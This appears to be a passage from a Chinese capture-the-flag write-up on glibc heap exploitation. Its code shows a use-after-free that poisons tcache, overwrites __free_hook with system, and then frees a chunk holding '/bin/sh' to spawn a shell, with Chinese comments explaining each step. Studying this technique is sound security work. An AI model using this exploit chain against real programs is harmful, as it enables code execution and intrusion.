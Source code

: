 [![](assets/1700442753-722d008768c89d3aa70746c2a4d393d9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117185503-c2ff79b2-8537-1.png)

```bash
free(1)

free(2)
recover(2)
#large bin 大小范围的 chunk 1、2 被释放也会放到 tcache bin 中

edit(2,p64(free_hook))
#利用 uaf 达到任意地址写
```

[![](assets/1700442753-e1e1950b7c599ca91843fe18b08064d5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117185522-ce795628-8537-1.png)

```bash
add(1,0x450,'\n')
add(2,0x450,'\n')
edit(2,p64(system))
edit(1,b'/bin/sh\x00')
#dbg()
free(1)
```
